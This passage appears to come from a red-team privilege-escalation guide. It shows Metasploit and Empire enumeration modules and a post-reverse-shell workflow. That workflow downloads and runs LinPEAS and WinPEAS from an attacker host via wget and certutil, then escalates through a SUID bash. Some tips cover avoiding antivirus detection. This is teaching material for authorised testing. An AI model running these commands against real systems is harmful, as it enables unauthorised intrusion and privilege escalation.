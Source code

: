 ### VII. 🧠 Integration with Metasploit & Empire

#### ⚙️ Metasploit AutoEnum

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

#### ⚙️ Empire

```bash
usemodule privesc/powerup/allchecks
usemodule situational_awareness/network/powerview/get_group
```

***

### VIII. 🧩 Real-World Workflow Example

```bash
# 1. After reverse shell
whoami && uname -a

# 2. Deploy LinPEAS
wget http://10.10.14.2/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh | tee /tmp/report.txt

# 3. Review results
grep "Possible" /tmp/report.txt

# 4. Exploit SUID binary
/bin/bash -p
```

Windows:

```powershell
certutil -urlcache -split -f "http://10.10.14.2/winPEAS.exe"
.\winPEAS.exe
```

***

### IX. 🧠 Pro Tips & Red Team Tricks

✅ **Speed vs. Noise**

* Run **LinPEAS** in “light” mode for faster enumeration.
* Avoid running multiple scanners simultaneously on production — can trigger AV.

✅ **Chaining Tools**

* Combine `LinPEAS` + `LES` for full Linux coverage.
* Combine `WinPEAS` + `PowerUp` for complete Windows mapping.
